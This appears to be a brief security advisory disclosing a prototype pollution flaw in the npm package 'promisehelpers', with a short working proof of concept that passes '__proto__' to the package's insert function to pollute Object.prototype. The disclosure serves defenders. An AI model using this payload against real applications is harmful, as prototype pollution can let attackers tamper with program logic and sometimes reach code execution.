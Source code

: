 # Overview
`promisehelpers` is a Promise helper functions, this package is vulnerable to Prototype Pollution via. the `insert` function.

# Proof of Concept
```
const promisehelpers = require('promisehelpers');
var obj = {};
promisehelpers.insert(['__proto__', 'polluted'], true)(obj);
console.log(polluted); // true
```